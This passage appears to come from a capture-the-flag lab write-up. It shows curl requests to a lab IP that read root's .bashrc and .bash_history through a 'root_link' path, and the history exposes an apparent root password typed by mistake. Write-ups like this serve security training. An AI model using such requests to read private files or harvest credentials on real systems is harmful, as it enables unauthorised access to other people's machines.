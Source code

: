![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`curl "http://192.168.56.122:3333/jan/root_link/.bashrc" -s`:
```
# ~/.bashrc: executed by bash(1) for non-login shells.

# Note: PS1 and umask are already set in /etc/profile. You should not
# need this unless you want different defaults for root.
# PS1='${debian_chroot:+($debian_chroot)}\h:\w\$ '
# umask 022

# You may uncomment the following lines if you want `ls' to be colorized:
# export LS_OPTIONS='--color=auto'
# eval "$(dircolors)"
# alias ls='ls $LS_OPTIONS'
# alias ll='ls $LS_OPTIONS -l'
# alias l='ls $LS_OPTIONS -lA'
#
# Some more alias to avoid making mistakes:
# alias rm='rm -i'
# alias cp='cp -i'
# alias mv='mv -i'
```

`curl "http://192.168.56.122:3333/jan/root_link/.bash_history" -s`:
```
ip a
exit
apt-get update && apt-get upgrade
apt-get install sudo
cd
wget https://go.dev/dl/go1.12.linux-amd64.tar.gz
tar -C /usr/local -xzf go1.12.linux-amd64.tar.gz
rm go1.12.linux-amd64.tar.gz 
export PATH=$PATH:/usr/local/go/bin
nano observer.go
go build observer.go 
mv observer /opt
ls -l /opt/observer 
crontab -e
nano root.txt
chmod 600 root.txt 
nano /etc/sudoers
nano /etc/ssh/sshd_config
paswd ←
fuck1ng0bs3rv3rs ←
passwd
su jan
nano /etc/issue
nano /etc/network/interfaces
ls -la
exit
ls -la
cat .bash_history
ls -la
ls -la
cat .bash_history
ls -l
cat root.txt 
cd /home/jan
ls -la
cat user.txt 
su jan
reboot
```